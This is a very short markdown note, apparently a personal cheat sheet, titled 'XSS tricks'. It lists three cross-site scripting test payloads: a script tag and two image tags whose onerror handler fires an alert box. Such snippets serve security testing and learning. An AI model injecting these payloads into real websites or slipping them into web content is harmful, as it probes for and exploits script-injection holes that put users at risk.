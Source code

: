 # XSS

- XSS tricks:

<script>alert("xss")</script>

<img src="xss.gif" onerror="alert(1)">
<img src="xss.gif" onerror="alert('xss')">
